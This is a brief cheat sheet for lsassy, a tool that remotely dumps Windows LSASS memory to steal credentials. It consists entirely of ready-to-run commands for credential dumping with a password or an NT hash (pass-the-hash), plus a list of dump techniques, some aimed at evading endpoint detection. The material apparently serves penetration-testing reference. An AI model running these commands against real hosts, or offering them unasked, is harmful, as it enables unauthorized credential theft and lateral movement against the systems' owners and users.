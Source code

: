 ### source
https://github.com/Hackndo/lsassy  

### get lsas credentials from remote host
```
lsassy -d <domain> -u <user> -p <password> <rhost>
```

### get lsas credentials from remote host using nt hash
```
lsassy -d <domain> -u <user> -H <[LM:]NT> <rhost>
```

### dump using specific method
```
lsassy -d <domain> -u <user> -p <password> <rhost> -m <method> -vv
```

### dumping methods
```
comsvcs
comsvcs_stealth
dllinject
dumpert
dumpertdll
edrsandblast
mirrordump
mirrordump_embedded
nanodump
ppldump
ppldump_embedded
procdump
procdump_embedded
rdrleakdiag
wer
```

